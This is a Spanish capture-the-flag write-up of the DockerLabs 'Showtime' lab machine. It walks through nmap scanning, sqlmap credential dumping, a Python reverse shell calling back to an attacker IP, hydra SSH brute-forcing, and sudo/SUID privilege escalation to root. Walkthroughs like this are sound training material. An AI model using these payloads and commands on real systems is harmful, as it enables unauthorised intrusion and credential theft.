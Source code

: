 # Showtime

# Enumeración

Empezamos con un escaneo de los puertos.

`sudo nmap -p- --open -sC -sS -sV --min-rate=5000 -n -Pn -vvv 172.17.0.2 -oN Balulero`  

- `-p-` : Todos los puertos
- `--open` : Todos los puertos abiertos
- `-sC` : Escaneo de todos los scripts
- `-sS` : Escaneo de todos los servicios
- `-sV` : Escaneo de todas las versiones de los servicios
- `--min-rate 5000` : Establece mínimo envío de paquetes mínimos 5000/s
- `-n` : No aplica resolución DNS
- `-Pn` : Omisión de detección de hosts
- `-vvv` : Verbose - Muestra toda la información

# Resultado escaneo  

Tenemos 2 puertos abiertos, el 22 y el 80.  

![ST](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/showtime/ST_1.jpg)    

Abrimos la web y en la home no encontramos nada interesante.  

![ST](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/showtime/ST_2.jpg)     

Vemos que hay un enlace a Login y lo abrimos y vemos que nos encontramos un panel de autenticacíon.  

![ST](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/showtime/ST_3.jpg)    

Utilizaremos la herramienta **sqlmap** para intentar extrapolar usernames y password.  
Ejecutaremos el comando:  

`sudo sqlmap -u http://172.17.0.2/login_page/index.php --forms --dbs --batch`  

![ST](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/showtime/ST_4.jpg)    

Ahora damos el comando:  

`sudo sqlmap -u http://172.17.0.2/login_page/index.php --forms -D users --tables --batch`  

![ST](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/showtime/ST_5.jpg)      

Seguimos la enumeración digitando:  

`sudo sqlmap -u http://172.17.0.2/login_page/index.php --forms -D users -T usuarios --columns --batch`  

![ST](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/showtime/ST_6.jpg)     

Y por último:  

`sudo sqlmap -u http://172.17.0.2/login_page/index.php --forms -D users -T usuarios -C username,password -dump --batch`  

![ST](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/showtime/ST_7.jpg)      

Perfecto!  
Tenemos 3 usuarios con sus relativas contraseñas.  

Probamos a logearnos pero solamente con el usaurio joe podemos acceder a un panel que nos permite ejecutar comandos python.  

![ST](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/showtime/ST_8.jpg)       

Ahora probamos a ver si funciona.  
Ejecutamos este comando:  

```
import os  
os.system ("ls")
```
![ST](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/showtime/ST_9.jpg)    

Perfecto, parece funcionar.  
Ahora lo que podemos intentar hacer es lanzarnos una reverse shell hacía nuestra maquina kali.
Nos pondremos a la escucha en en puerto 6969 de la nuestra kali y ejecutaremos el comando `nc -lvnp 6969`.   
Ahora ejecutaremo este cógido en el panel:  

```
import socket
import os
import subprocess

# Configura l'IP e la porta di destinazione
ip = "10.10.10.10"
port = 6969

# Crea il socket e connettiti al server
s = socket.socket()
s.connect((ip, port))

# Reindirizza stdin, stdout, stderr al socket
os.dup2(s.fileno(), 0)  # stdin
os.dup2(s.fileno(), 1)  # stdout
os.dup2(s.fileno(), 2)  # stderr

# Esegui la shell
subprocess.call("/bin/sh")
```
![ST](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/showtime/ST_10.jpg)    

Perfecto!  
Hemos obtenido una reverse shell.  
Ahora le aplicamos un tratamiento para poder trabajar más comodos.  

![ST](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/showtime/ST_11.jpg)  

Probamos a dar los tipicos comandos para intentar escalar de privilegios, pero no vemos nada interesante.  

![ST](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/showtime/ST_12.jpg)   

Entonces subimos el archivo linpeas.sh a la maquina victima.  
Para ello nos montamos un server http en la nuesta maquina kali con el comando:  
`sudo python3 -m http.server` y posteriormente descargamos el archivo en la maquina victima.  
Le damos los permisos de ejecucíon con el comando `chmod +x` y lo ejecutamos.  
Analizandolo todo vemos que hay un archivo oculto en la carpeta /tmp que se llama **.hidden_text.txt**  

![ST](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/showtime/ST_13.jpg)    

Lo abrimos y vemos que contiene una serie de palabras todas en mayusculas.  

![ST](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/showtime/ST_14.jpg)   

Jugando con la imaginacíon podemos pensar que esto podría ser un listado de probables contraseña. 
Probamos a crear un diccionario pero vemos que con hydra no logramos sacar la contraseña.  
Una otra cosa que podemos hacer es convertir con **tr** todas las palabras de mayusculas a minusculas.  
Para ello utilizamos el siguiente comando:  

`cat pass.txt | tr '[:upper:]' '[:lower:]' > password.txt`  

Y ahora intentamos otra vez con hydra para ver si sacamos algo que nos pueda servir.  
Ejecutamos el comando:  

`sudo hydra -L users.txt -P password.txt ssh://172.17.0.2/`  y listo, conseguimos una contraseña valida pare el usuario joe.  

![ST](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/showtime/ST_15.jpg)     

Ahora nos conectamos con el usuario joe y lanzamos el comando:  

`sudo -l`  

![ST](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/showtime/ST_16.jpg)     

Miramos en GTFOBins si podemos aprovechar de este binario y parece que sí.  

![ST](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/showtime/ST_17.jpg)      

![ST](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/showtime/ST_18.jpg)    

Perfecto, ya hemos podido escalar a otro usuario.  
Lanzamos otra vez el comando `sudo -l`  

![ST](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/showtime/ST_19.jpg)     

Echamos un ojo a lo script en la carpeta de luciano.  

![ST](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/showtime/ST_20.jpg)      

Ok, lo que haremos será modificarlo para poder escalar a root.  
Vemos que no podemos utilizar ni el editor nano ni el vim.  
Por lo tanto lo que haremos será utilizar el comando **echo**.  
Lanzaremos el comando:  

`echo -e '#!/bin/bash \n chmod u+s /bin/bash' > .script.sh`  

![ST](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/showtime/ST_21.jpg)    

Perfecto, ahora ejecutaremos el comando `sudo /bin/bash /home/luciano/script.sh` y luego el comando `bash -p`  y listo!  
Ya somos root!  

![ST](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/showtime/ST_22.jpg)    













